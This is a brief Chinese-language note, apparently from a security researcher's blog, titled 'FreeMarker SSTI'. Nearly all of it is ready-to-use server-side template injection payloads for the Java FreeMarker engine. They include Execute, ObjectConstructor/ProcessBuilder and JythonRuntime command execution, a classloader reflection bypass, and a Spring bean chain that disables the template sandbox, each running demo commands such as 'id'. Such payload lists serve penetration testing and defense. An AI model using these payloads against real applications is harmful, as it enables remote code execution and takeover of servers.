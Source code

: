 ```yaml
---
title: "FreeMarker SSTI"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:13+08:00
tags: ["java"]
draft: false
---
```


最简单的 poc

```text
<#assign test="freemarker.template.utility.Execute"?new()> ${test("kcalc")}
```

poc1:

```text
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","kcalc").start()}
```

poc2:

```text
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("kcalc")
```

绕过 class.getClassloader 反射加载 Execute 类

```java
<#assign classloader=<<object>>.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

如果 Spring Beans 可用，可以直接禁用沙箱，这个 payload 需要应用使用
freemarker+spring 并设置 `setExposeSpringMacroHelpers(true)` 或者
application.propertices 中设置 `spring.freemarker.expose-spring-macro-helpers=true`

```java
<#assign ac=springMacroRequestContext.webApplicationContext>
<#assign fc=ac.getBean('freeMarkerConfiguration')>
<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>
<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>${"freemarker.template.utility.Execute"?new()("id")}
```

